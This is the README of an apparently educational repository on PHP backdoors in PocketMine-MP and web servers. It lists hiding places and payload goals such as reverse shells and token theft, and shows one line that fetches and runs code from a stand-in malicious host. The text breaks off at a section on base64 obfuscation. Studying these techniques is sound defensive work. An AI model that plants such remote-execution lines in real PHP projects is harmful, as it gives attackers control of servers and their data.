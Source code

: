 # PocketMine (PHP) Backdoor Educational Project

> Disclaimer  
> This project is provided for **educational and research purposes only**.  
> It demonstrates how **simple, low-level PHP scripts** can be used to implement persistent backdoors in production environments (e.g., Minecraft servers, web servers).  
> These techniques are **easy to deploy**, **highly flexible**, and can be **deeply hidden**, making them dangerous if misused.

---

## Why This Matters

PHP is a widely-used scripting language across web servers, game panels, and server software like PocketMine-MP. Its flexibility makes it especially vulnerable to:

- Dynamic code execution (`eval`, `assert`, etc.)
- File inclusion (`include`, `require`)
- Environment manipulation (`php.ini`, `auto_prepend_file`)

Malicious actors can **hide persistent payloads** inside:
- Plugins
- Composer autoloaders
- Shell wrappers
- Web APIs
- Third-party dependencies

Once embedded, these payloads can:
- Send sensitive data (e.g., plugin configs, world files)
- Inject reverse shells or remote access backdoors
- Install malware on Windows systems
- Steal Discord tokens, browser sessions, and more

This repository simulates a minimal version of such a backdoor, using real techniques observed in the wild.

---

## Common Backdoor Obfuscation Techniques

Here are some **commonly-used** methods attackers use to hide PHP backdoors:

### 1. Remote Execution via `eval(file_get_contents(...))`

```php
eval(file_get_contents("https://malicious.site/backdoor.txt"));
````

The file is **never stored on disk**, making it hard to trace. Can be wrapped in conditions or encoded.

### 2. Base64 + `eval`
